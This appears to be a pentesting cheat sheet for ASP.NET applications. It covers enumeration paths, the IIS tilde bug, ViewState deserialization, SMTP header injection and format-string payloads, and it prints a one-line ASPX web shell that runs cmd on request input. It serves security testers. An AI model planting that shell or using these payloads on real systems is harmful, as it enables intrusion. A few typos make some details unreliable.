 ## ENUMERATION
No need for me to say how important is enumeration! I list herein _additional_ directories and extentions to look for in a .NET application.
### Directories
  - C:\Windows\System32
  - \\Host\C$\Windows\System32
  - \\.\C:\Windows\System32
  - \\?\C:\Windows\System32
  - \\?\UNC\Host\C$\Windows\System32
  - C:\Windows\hh.exe == C:\Windows:$I30:$INDEX_ALLOCATION\hh.exe
  - C:\Windows\notepad.exe == C:\Windows\notepad.exe::$DATA
  - FileName.aspx == FileName.aspx:.jpg
  - http://hostname/*Resource.axd?d=<resourceId\>&t=\<timestamp\>

Also take a look at the following reminders before you start your directory bruteforce:
  - Reserved: NUL, CON, AUX, PRN, COM, LPT
  - Endings: name == name… == name \\\
  - Case insensitivity
### Files Extensions
  - .asp
  - .aspx
  - .ashx
  - .xsd
  - .disco
  - .discomap
  - .wsdl
  - .wadl
  - .asmx
  - .xml
  - .config
  - .zip
  - .txt
  
## TECHNIQUES AND TRICKS
I wanted this list to be an exhaustive list of all vulnerabilities that are mentioned on the web to be of a special focus in ASP.NET applications, I myself have seen some and not all of them, and I guess they are common among .NET in general -you will recognize some of them to be valid for all types of backends too but I was not as keen to mention all of those.
### Short Names (IIS tilde bug)
The vulnerability is caused by a tilde character "~" in a GET or OPTIONS request, which could allow remote attackers to disclose 8.3 filenames.
[IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner). Command: `java –jar iis_shortname_scanner.jar [2=Show_Progress] [20=Threads] [Target_URL] > [OutFile]`
<br>PS. ignore “global”, “master”, “default”, “aspnet” from results.
### Viewstate
The ViewState is a mechanism built into the ASP.NET platform for persisting elements of the user interface and other data across successive requests. The data to be persisted is serialized by the server and transmitted via a hidden form field. When it is posted back to the server, the ViewState parameter is deserialized and the data is retrieved. An attacker can modify the contents of the ViewState and cause arbitrary data to be deserialized and processed by the server. An attacker may be able to execute arbitrary code on the server by supplying a gadget chain. Also, if the ViewState contains any items that are critical to the server's processing of the request, then this may result in a direct security exposure.
Looking further into this vulnerability you would notice that it has many possible variations. As a simple first step, you can start by testing if the ViewState is not encrypted simply by finding any ViewState decoder on the web (e.g. http://viewstatedecoder.azurewebsites.net/)
### Remote debugging
Since ASP.NET is a compiled application, it has certain debugging features. Microsoft allows you to use a remote debugger to work on a debug version of the application.  If this port is open on the Internet and is protected by a simple password, or there is no password at all, then it is possible to pick up a debugger session.
### SMTP Header Injection
No validation of the value that falls in the “To” header, it is possible to redirect the letter to another recipient. But that would be too simple and obvious, so validation occurs already at the .Net level. However, if you introduce a new Reply-To header — the answer address, many forms such as “Forgotten Password” often take the sending address from it, thus it is enough to embed carriage return and line feed characters and get the workload.

>From: mail@mail.mail (R.T. Hood)<br>
>To: mail@mail.mail/r/nReply-to:mail@mail.mail<br>
>Date: Tue, Mar 18199714:36:14 PST<br>
>Message-Id: <mail@mail.mail><br>
>...<br>
>В итоге будет внедрен новый заголовок:<br>
>From: mail@mail.mail (R.T. Hood)<br>
>To: mail@mail.mail<br>
>Reply-To: mail@mail.mail<br>
>Date: Tue, Mar 18199714:36:14 PST<br>
>Message-Id: <mail@mail.mail><br>
### Additional .NET-Specific Tricks
1. Canonicalization attack
   - Using environment variables to represent path - e.g. %windir%notepad.exe
   - Trailing “.” - e.g. C:wondowsnotepad.exe.
   - Create file - \\URL\<name>		\\URL\pipe\<name>
2. LINQ injection
3. Hash collusion: https://github.com/HybrisDisaster/aspHashDoS
#### Not-.NET-Specific
1. XXE in DocX files
2. Padding Oracle (cookies / viewstate …)
3. Injection (sql with sqlNinja, js, html…)
4. Format strings attack - e.g %n%n%n%n%n%n%n%n  ||  %s%s%s%s%s%s%s%s%s  ||  %d%d%d%d%d%d%d%d
5. Serialization
6. LFI - simple webshell `<%@ Page Language="C#" %> <%@ Import Namespace="System.Diagnostics" %> <%= Process.Start( new ProcessStartInfo( "cmd","/c " + Request["c"] ) { UseShellExecute = false, RedirectStandardOutput = true } ).StandardOutput.ReadToEnd() %>`
7. Trace method
8. Session fixation 
9. Replay attacks
10. CORS
 
## References
- https://www.youtube.com/watch?v=HrJW6Y9kHC4 
- https://cheatsheetseries.owasp.org/cheatsheets/DotNet_Security_Cheat_Sheet.html
- https://resources.infosecinstitute.com/topic/net-penetration-testing-test-case-cheat-sheet/
- https://www.business2community.com/cybersecurity/9-ways-hackers-exploit-asp-net-and-how-to-prevent-them-02353604
- Positive technologies [PDF](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiR5K7i-5T0AhUKh_0HHQM2CW0QFnoECAMQAQ&url=https%3A%2F%2Fwww.ptsecurity.com%2Fupload%2Fcorporate%2Fru-ru%2Fwebinars%2Fics%2FV.Kochetkov_breaking_ASP.NET.pdf&usg=AOvVaw1BQOnt5w4XQizf5Tosp201)
